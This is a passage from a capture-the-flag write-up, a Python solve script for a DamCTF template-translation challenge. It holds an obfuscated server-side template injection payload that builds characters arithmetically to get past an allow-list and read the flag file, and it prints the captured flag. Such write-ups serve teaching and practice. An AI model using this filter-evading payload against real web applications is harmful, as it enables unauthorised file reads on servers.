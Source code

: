 ```
    print(f"\nSSTI attack: {encoded_att} \n")
    # SSTI attack: { {('(o'%2B(4*4*6%2B6%2B6%2B4)|ch%2B'e'%2B(4*4*6%2B6%2B6%2B1%2B1)|ch%2B'("'%2B(6*6%2B6%2B4%2B1)|ch%2B(4*4*6%2B6)|ch%2B'l'%2B(4*4*6%2B1)|ch%2B(4*4*6%2B6%2B1)|ch%2B'")'%2B(6*6%2B6%2B4)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e} }
    # send the attack

    flag_ptt = re.compile("dam{.+}")
    translator = s.post(
        "https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload="+encoded_att)
    flag = flag_ptt.findall(translator.content.decode('utf-8'))[0]
    print(flag)  # dam{p4infu1_all0wl1st_w3ll_don3}


if __name__ == "__main__":
    main()
```


The encoded attack is:

`{ {('(o'%2B(4*4*6%2B6%2B6%2B4)|ch%2B'e'%2B(4*4*6%2B6%2B6%2B1%2B1)|ch%2B'("'%2B(6*6%2B6%2B4%2B1)|ch%2B(4*4*6%2B6)|ch%2B'l'%2B(4*4*6%2B1)|ch%  
2B(4*4*6%2B6%2B1)|ch%2B'")'%2B(6*6%2B6%2B4)|ch%2B're'%2B(4*4*6%2B1)|ch%2B'd())')|e} }`

which sent as payload gives us the flag.

`dam{p4infu1_all0wl1st_w3ll_don3}`

gg. aMan

